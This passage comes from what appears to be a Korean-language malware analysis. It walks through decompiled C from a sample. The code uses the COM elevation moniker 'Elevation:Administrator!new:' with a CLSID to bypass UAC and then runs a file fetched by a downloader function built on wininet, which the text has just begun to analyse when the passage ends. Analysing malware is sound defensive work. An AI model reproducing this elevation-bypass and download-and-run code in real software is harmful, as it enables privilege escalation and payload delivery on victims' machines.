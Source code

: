 ```c
    wcscpy(string,L"Elevation:Administrator!new:");
    wcscat(string,L"{3E5FC7F9-9A51-4367-9063-A120244FBEC7}");
    RtlSecureZeroMemory(&pBindOptions,0x24);
    pBindOptions.cbStruct = 0x24;
    local_60 = 4;
    HModule = GetModuleHandleW(L"Ole32.dll");
    CoGetObject_addr = (CoGetObject *)GetProcAddress(HModule,"CoGetObject");
    local_10 = (*CoGetObject_addr)(string,&pBindOptions,&riid,&ppv);
    download_ATAPIConfiguration();
    local_10 = (**(code **)(*ppv + 0x24))(ppv,download_path,0,0,0,5);
  } while (local_14 != 0);
  if (ppv != (int *)0x0) {
    (**(code **)(*ppv + 8))(ppv);
  }
  return;
}
```

## ATAPIConfiguration 다운로드 함수

이제 아까 지나쳤던 `download_ATAPIConfiguration()`을 분석을 해봅시다.

```c
undefined4 download_ATAPIConfiguration(void)

{
  char cVar1;
  bool bVar2;
  undefined4 uVar3;
  HMODULE pHVar4;
  int iVar5;
  size_t sVar6;
  undefined4 *puVar7;
  uint uVar8;
  LPCSTR pCVar9;
  int local_64;
  undefined4 local_60;
  undefined4 local_5c;
  uint local_58;
  FARPROC local_54;
  FARPROC local_50;
  FARPROC local_4c;
  HANDLE local_48;
  FARPROC local_44;
  char *local_40;
  void *local_3c;
  int local_38;
  FARPROC local_34;
  FARPROC local_30;
  FARPROC local_2c;
  int local_28;
  FARPROC local_24;
  int local_20;
  FARPROC local_1c;
  int local_18;
  FARPROC local_14;
  HMODULE local_10;
  
  local_10 = LoadLibraryA("wininet.dll");
  local_14 = GetProcAddress(local_10,"InternetOpenW");
  local_18 = (*local_14)(L"WINDOWS",0,0,0,0);
  if (local_18 == 0) {
    uVar3 = 0xe;
```